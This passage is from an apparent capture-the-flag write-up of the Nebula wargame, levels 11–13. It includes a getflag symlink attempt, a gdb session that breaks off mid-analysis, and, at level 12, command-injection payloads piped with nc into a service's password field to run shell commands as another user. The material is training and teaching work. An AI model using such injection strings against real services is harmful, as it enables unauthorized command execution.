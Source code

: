 
 ```sh
level11@nebula:~$ ln -s /bin/getflag  c
level11@nebula:~$ python ex.py  | /home/flag11/flag11 
sh: $'c0\254': command not found
level11@nebula:~$ python ex.py  | /home/flag11/flag11 
getflag is executing on a non-flag account, this doesn't count
```

system() isn't processed  with  setresuid/setresgid and command in this case runs as the real UID instead of flag11 UID. 
Both paths of solving lead to the system() call, in any case, program will be executed without effective privilege.

## level12
[task description](https://exploit-exercises.lains.space/nebula/level12/)

 Here we have  **password**  variable  which could be used in **popen()** call to inject our command.
 A couple tries and we run **getflag** under flag12 user: 
 ```sh
 level12@nebula:/home/flag12$ echo "test" | nc localhost 50001
Password: Better luck next time
level12@nebula:/home/flag12$ echo ";/bin/sh ;" | nc localhost 50001
Password: Better luck next time
level12@nebula:/home/flag12$ echo "1 ; touch /tmp/olol ; echo 112 " | nc localhost 50001
Password: Better luck next time
level12@nebula:/home/flag12$ ls /tmp/ | grep olol
olol
level12@nebula:/home/flag12$ ls -la /tmp/olol 
-rw-r--r-- 1 flag12 flag12 0 Oct  1 05:18 /tmp/olol
level12@nebula:/home/flag12$ echo "1 ; /bin/getflag > /tmp/level12 ; echo 112 " | nc localhost 50001
Password: Better luck next time
level12@nebula:/home/flag12$ ls -la /tmp/level12 
-rw-r--r-- 1 flag12 flag12 59 Oct  1 05:19 /tmp/level12
level12@nebula:/home/flag12$ cat /tmp/level12
You have successfully executed getflag on a target account

 ```
## level13
[task description](https://exploit-exercises.lains.space/nebula/level13/)

Code verifies UID and compares it with 1000. So it seems, that only way to run binary and get token is to pass the check.
Try to run binary with gdb: 
```sh
sh-4.2$ gdb flag13 
GNU gdb (Ubuntu/Linaro 7.3-0ubuntu2) 7.3-2011.08
Copyright (C) 2011 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i686-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/flag13/flag13...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80484c9
(gdb) r
Starting program: /home/flag13/flag13 

Breakpoint 1, 0x080484c9 in main ()
(gdb) disass 
```